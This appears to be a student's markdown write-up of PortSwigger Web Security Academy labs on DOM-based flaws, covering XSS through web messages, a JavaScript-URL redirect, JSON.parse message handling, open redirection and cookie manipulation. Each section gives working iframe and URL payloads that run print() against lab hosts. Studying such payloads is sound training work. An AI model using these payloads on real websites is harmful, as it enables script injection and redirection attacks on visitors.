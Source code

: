 ### Lab: DOM XSS using web messages
Explanation:
Let's say we have our own html page.
On our page we have:
```bash
<script>
    window.addEventListener('message', function(e) {
        console.log(e.data);
    })
</script>
```
And some kind of a button, that when clicked it executes the following code:
```bash
window.postMessage("hello world")
```
So whenever that button is clicked it consoles log "hello world"

So even though `window.postMessage` can be used cross site, it can also be used on the same site.

Definition from MDN: The window.postMessage() method safely enables cross-origin communication between Window objects; e.g., between a page and a pop-up that it spawned, or between a page and an iframe embedded within it.

#### Exploiting the lab:
On the main page we have:
```bash
<script>
    window.addEventListener('message', function(e) {
        document.getElementById('ads').innerHTML = e.data;
    })
</script>
```
And we have:
```bash
<div id='ads'>
```
Which means whatever we are going to pass to window.postMessage(), is going to be injected (via `innerHtml = e.data`) onto the page.

So we create a new page on the server that we control and we paste the following:
```bash
<iframe src="https://0a9c008e037b9aae80e021720045005f.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">
```
That iframe will load vulnerable website inside the iframe and `onload` will execute `contentWindow.postMessage('<img src=1 onerror=print()>','*')`, and therefore `print()` is going to be executed.

All that is needed is for user to visit our page from the server that we control.

### Lab: DOM XSS using web messages and a JavaScript URL
This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function. 

We have:
```bash
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```

Solution:
```bash
<iframe src="https://0a51008103b44997808c125400d50058.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

### Lab: DOM XSS using web messages and JSON.parse
We have:
```bash
window.addEventListener('message', function(e) {
    var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
    document.body.appendChild(iframe);
    try {
        d = JSON.parse(e.data);
    } catch(e) {
        return;
    }
    switch(d.type) {
        case "page-load":
            ACMEplayer.element.scrollIntoView();
            break;
        case "load-channel":
            ACMEplayer.element.src = d.url;
            break;
        case "player-height-changed":
            ACMEplayer.element.style.width = d.width + "px";
            ACMEplayer.element.style.height = d.height + "px";
            break;
    }
}, false);
```

So I tried:
```bash
<iframe src="https://0a27005803cfe64980103a0a00ba007e.web-security-academy.net/" onload="this.contentWindow.postMessage('{"type": "load-channel", "url": "javascript:print()"}','*')">
```
It didn't work. Because " sign terminated the string that is opened after `onload` earlier. 

Here's the solution:
```bash
<iframe src=https://0a27005803cfe64980103a0a00ba007e.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```

### Lab: DOM-based open redirection
The page has:
```bash
 <a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
```

`location` object contains the value from the browser url bar as one of its properties.

To solve the lab we need to redirect a user (when they click on Back to Blog btn) to the exploit server. For that purpose we need to modify the url in the following way:
```bash
https://0ac400ec04f118e280002b5b00db00fa.web-security-academy.net/post?postId=10&url=https://exploit-0a7100f70445184f80b82a2701920042.exploit-server.net/exploit
```
And the lab is solved


### Lab: DOM-based cookie manipulation
We have products and whenever we click on some product, the page with that product description is opened. It contains the following:
```bash
<script>
    document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>
```
That website has a button: "Last viewed product":
```bash
<a href="https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=3">Last viewed product</a>
```
The value that is placed in `<a href="...">` is taken from the `lastViewedProduct` cookie.

We can therefore try to escape `<a>` tag and append `<script>` after it:
```
https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=2&'><script>print()</script>
```
As a result the value of cookie becomes:
```
https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=2&%27%3E%3Cscript%3Eprint()%3C/script%3E
```
After that when we go to the Home page here's what we find there:
```
<a href='https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=2&'><script>print()</script>'>Last viewed product</a><p>|</p>
```
As you can see we have successfully escaped `<a>` tag.

The problem is that we still have to go to 2 different pages. First to a specific product page and later to the Home page. Iframe can help us with that.

Here's the lab solution:
```bash
<iframe src="https://0a7900b10398d71489664b8c000600c2.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://YOUR-LAB-ID.web-security-academy.net';window.x=1;">
```
So when it is first loaded it sets the value of the cookie with malicious js.
Then `onload` event is triggered and the victim is redirected to Home page. On the home page the value from malicious cookie is taken and js code is executed.

Note we need this `window.x=1` and of course `if(!window.x)` because we don't want `onload` to stuck in a loop. We only want it to be executed once.

### Lab: Exploiting DOM clobbering to enable XSS


